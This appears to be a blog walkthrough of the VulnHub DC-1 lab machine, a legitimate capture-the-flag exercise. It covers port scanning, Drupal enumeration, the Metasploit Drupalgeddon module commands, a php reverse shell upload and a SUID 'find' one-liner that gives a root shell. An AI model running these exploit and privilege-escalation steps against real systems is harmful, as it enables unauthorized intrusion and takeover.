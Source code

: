 ```yaml
---
layout: "post"
title: "DC 1 Walkthrough"
categories: [vulnhub]
tags: dc-1
---
```

DC-1 was a simple and straightforward `CVE` based box. We find the server is hosting `Drupal CMS`. I saw that Drupal version had a CVE which allowed me drop a `webshell` in webserver. Priv sec to root by exploiting `find SUID binary`. 

# Summery
- Portscan
- Drupal Enumeration
- Exploting drupal to get shell
- Privilege Escalation by exploting SUID binary
- Getting Root
- Final Flag

# Portscan

```
Nmap scan report for 192.168.1.12
Host is up (0.00022s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
111/tcp open  rpcbind
```
# Drupal
I visit the website. I find that server is running Drupal CMS. I don't have any idea about drupal so I search online and findout `droopescan` tool. I installed it and run it.

For installation:
```bash
pip install droopescan
```

After installation I run `droopescan`.

![droopescan](/assets/img/dc-1/droopescan.png)

# Initial Shell
From scan I find out some useful stuff but drupal version grab my attention.Then I findout exploits on `searchsploit`.
```bash
searchsploit drupal 7
``` 
![searchsploit](/assets/img/dc-1/searchsploit.png)

I start metasploit and used the exploit.

```
use exploit/multi/http/drupal_drupageddon
set rhosts 192.168.1.12
run
```

![meterpreter_shell](/assets/img/dc-1/meterpreter_shell.png)
In this way I have meterpreter session
## Flag 1 
After getting shell I found ```flag1.txt``` 
![flag1](/assets/img/dc-1/flag1.png)

## Netcat Shell
Now I have meterpreter so tried to launch shell and run the commands but due to some reasons I am not able to run commands.
![not working shell](/assets/img/dc-1/not_working_shell.png)
 The metasploit shell is not working so that I shift to netcat shell by uploading ```php-reverse-shell```.

![upload_shell](/assets/img/dc-1/upload_shell.png)

![nc_shell](/assets/img/dc-1/nc-shell.png)

# Privsec to Root

After some enumeration I noticed that ```find``` has SUID bit set, we can run the commands as root.
With one simple command we get root.

```bash
/usr/bin/find . -exec /bin/sh \; -quit
```
![root](/assets/img/dc-1/root.png)
## Final Flag
![finalflag](/assets/img/dc-1/finalflag.png)

